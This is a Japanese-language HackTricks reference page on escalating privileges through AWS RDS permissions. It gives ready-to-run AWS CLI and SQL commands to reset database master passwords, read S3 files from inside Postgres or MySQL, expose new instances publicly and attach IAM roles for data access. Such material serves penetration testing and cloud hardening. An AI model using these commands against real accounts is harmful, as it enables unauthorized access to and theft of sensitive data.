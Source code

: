 # AWS - RDS Privesc

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)で<strong>ゼロからヒーローまでAWSハッキングを学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* **HackTricks**と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>

## RDS - Relational Database Service

RDSについての詳細は以下をチェックしてください:

{% content-ref url="../aws-services/aws-databases/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-databases/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

その権限を持つ攻撃者は、**マスターユーザーのパスワードを変更し**、データベース内でログインできます：
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
データベースに**接触する**能力が必要です（通常は内部ネットワークからのみアクセス可能です）。
{% endhint %}

**潜在的な影響：** データベース内の機密情報を見つける。

### rds-db:connect

[**ドキュメント**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html)によると、この権限を持つユーザーはDBインスタンスに接続できます。

### RDSロールIAM権限の悪用

#### Postgresql（Aurora）

{% hint style="success" %}
**`SELECT datname FROM pg_database;`** を実行して、**`rdsadmin`** という名前のデータベースを見つけた場合、**AWS postgresqlデータベース**内にいることがわかります。
{% endhint %}

まず、このデータベースが他のAWSサービスにアクセスするために使用されていたかどうかを確認できます。インストールされている拡張機能を見ることでこれを確認できます：
```sql
SELECT * FROM pg_extension;
```
もし **`aws_s3`** のようなものを見つけたら、このデータベースには **S3に対する何らかのアクセス権がある** と考えることができます（**`aws_ml`** や **`aws_lambda`** など他の拡張機能もあります）。

また、**`aws rds describe-db-clusters`** を実行する権限がある場合、**クラスターにIAMロールが関連付けられているかどうか** を **`AssociatedRoles`** フィールドで確認できます。もしそこに何かあれば、データベースは **他のAWSサービスにアクセスするために準備されていた** と考えることができます。**ロールの名前**（またはロールの **権限** を取得できる場合）に基づいて、データベースが持っている追加のアクセス権を **推測** することができます。

さて、バケット内のファイルを **読むには**、完全なパスを知る必要があります。以下の方法で読むことができます：
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
**生のAWSクレデンシャル**を持っていた場合、それらを使用してS3データにアクセスすることもできます:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresqlは、S3にアクセスするために**パラメータグループ変数を変更する必要はありません**。
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
mysql内で**`SELECT User, Host FROM mysql.user;`**というクエリを実行し、**`rdsadmin`**というユーザーがいれば、**AWS RDS mysql db**内にいると考えることができます。
{% endhint %}

mysql内で**`show variables;`**を実行し、**`aws_default_s3_role`**、**`aurora_load_from_s3_role`**、**`aurora_select_into_s3_role`**などの変数に値があれば、データベースがS3データにアクセスする準備ができていると考えることができます。

また、**`aws rds describe-db-clusters`**を実行する権限があれば、クラスターに**関連するロール**があるかどうかを確認できます（通常、AWSサービスへのアクセスを意味します）。

さて、バケット内のファイルを**読む**には、完全なパスを知る必要があります。以下の方法で読むことができます：
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

権限 `rds:AddRoleToDBCluster` と `iam:PassRole` を持つ攻撃者は、**既存のRDSインスタンスに指定されたロールを追加する**ことができます。これにより攻撃者は、インスタンス内の**機密データにアクセス**したり、データを変更することができるようになります。
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**潜在的影響**: RDSインスタンス内の機密データへのアクセスや、データの不正な変更が可能になる。\
Mysqlのように追加の設定が必要なDBもあることに注意。これは、パラメータグループでロールARNを指定する必要がある。

### `rds:CreateDBInstance`

この権限だけで、攻撃者は既に存在し、**IAMロール**がアタッチされている**クラスター内に新しいインスタンス**を作成することができる。マスターユーザーのパスワードを変更することはできないが、新しいデータベースインスタンスをインターネットに露出させる可能性がある：
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: テスト
{% endhint %}

`rds:CreateDBInstance` と `iam:PassRole` の権限を持つ攻撃者は、**指定されたロールがアタッチされた新しいRDSインスタンスを作成する**ことができます。その後、攻撃者は潜在的に**機密データにアクセス**したり、インスタンス内のデータを変更することができます。

{% hint style="warning" %}
アタッチするロール/インスタンスプロファイルのいくつかの要件（[**こちら**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)から）:

* プロファイルはあなたのアカウント内に存在する必要があります。
* プロファイルには、Amazon EC2がアサムする権限を持つIAMロールが必要です。
* インスタンスプロファイル名と関連するIAMロール名は、プレフィックス `AWSRDSCustom` で始まる必要があります。
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**潜在的な影響**: RDSインスタンス内の機密データへのアクセスや、データの不正な変更。

### `rds:AddRoleToDBInstance`, `iam:PassRole`

権限 `rds:AddRoleToDBInstance` と `iam:PassRole` を持つ攻撃者は、**既存のRDSインスタンスに指定されたロールを追加する**ことができます。これにより、攻撃者はインスタンス内の**機密データにアクセス**したり、データを変更することができるようになります。

{% hint style="warning" %}
このDBインスタンスはクラスター外である必要があります
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**潜在的な影響**: RDSインスタンスの機密データへのアクセスや、データへの不正な変更。

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)で</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>AWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加する、または**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>
